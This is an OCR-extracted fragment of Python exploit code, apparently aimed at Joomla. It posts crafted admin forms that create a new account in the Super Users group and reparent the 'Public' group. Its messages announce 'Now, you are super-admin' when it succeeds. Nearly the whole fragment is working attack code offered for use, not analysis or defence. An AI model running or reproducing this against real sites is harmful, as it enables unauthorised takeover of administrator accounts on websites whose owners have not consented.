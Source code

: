             print "[+] Done!"
        return True


    def create_user(url, sess, username, password, email, token):
        newdata = {
            # Form data
            'jform[name]': username,
            'jform[username]': username,
            'jform[password]': password,
            'jform[password2]': password,
            'jform[email]': email,
            'jform[resetCount]': 0,
            'jform[sendEmail]': 0,
            'jform[block]': 0,
            'jform[requireReset]': 0,
            'jform[id]': 0,
            'jform[groups][]': 8,
            token: 1,
        }
        newdata['task'] = 'user.apply'
        url_post = url + "/administrator/index.php?option=com_users&layout=edit&id=0"
        sess.post(url_post, data=newdata, verify=True)
        sess.get(url + "/administrator/index.php?option=com_login&task=logout&" + token + "=1", verify=True)
        sess = requests.Session()
        if try_admin_login(sess, url, username, password):
            print "[+] Now, you are super-admin!!!!!!!!!!!!!!!!" + "\n[+] Your super-admin account: \n[+] USERNAME: " + username + "\n[+] PASSWORD: " + password + "\n[+] Done!"
        else:
            print "[-] Sorry,exploit fail!"
        return sess


    def changeGroupDefault(url, sess, token):
        print("[+] Changing group")
        newdata = {
            'jform[title]': 'Public',
            'jform[parent_id]': 0,
            'task': 'group.apply',
            token: 1
        }
        newdata['task'] = 'group.apply'
        resp = sess.post(url + "/administrator/index.php?option=com_users&layout=edit&id=1", data=newdata,
                         verify=True)
        if 'jform[parent_id]' not in resp.text:
            print('[!] Maybe failed to change group...')
            return False
        else:
            print "[+] Done!"
        return True
